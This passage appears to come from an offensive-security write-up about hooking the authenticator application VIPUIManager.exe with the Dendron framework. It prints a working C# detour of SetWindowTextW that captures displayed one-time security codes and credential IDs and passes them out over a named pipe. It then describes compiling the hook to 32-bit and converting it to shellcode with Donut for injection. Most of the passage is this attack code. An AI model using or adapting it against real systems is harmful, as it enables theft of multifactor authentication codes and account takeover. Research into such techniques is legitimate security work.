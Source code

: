 ### Preparing Dendron

Porting this logic to Dendron is easy, you can see the code for the function detour below.

```c#
// Function Detours
//-----------
static private Boolean SetWindowTextWDetour(
        IntPtr hWnd,
        IntPtr lpString)
{
    String sControlString = String.Empty;
    try
    {
        sControlString = Marshal.PtrToStringUni(lpString);
        if (sControlString.Length > 0)
        {
            hDendron.HOOKDAT oHook = new hDendron.HOOKDAT();
            oHook.sHookFunc = "User32!SetWindowTextW";
            oHook.iType = 0;
            if (sControlString.Length == 6)
            {
                oHook.sHookData = "[+] Security Code : " + sControlString;
            } else if (sControlString.Length > 6)
            {
                oHook.sHookData = "[+] Credential ID : " + sControlString;
            }
            
            // Send data to pipe
            hDendron.passHookDataByPipe(oHook);
        }
    } catch { }
    
    // Return to real function
    return API.SetWindowTextW(hWnd, lpString);
}
```

Once implemented we have to compile Dendron to match the architecture of the target application. In this case `VIPUIManager.exe` is `x86` so we compile a 32-bit version of Dendron. Finally we turn Dendron into shellcode using Donut.

![Donut](Images/donut.png)
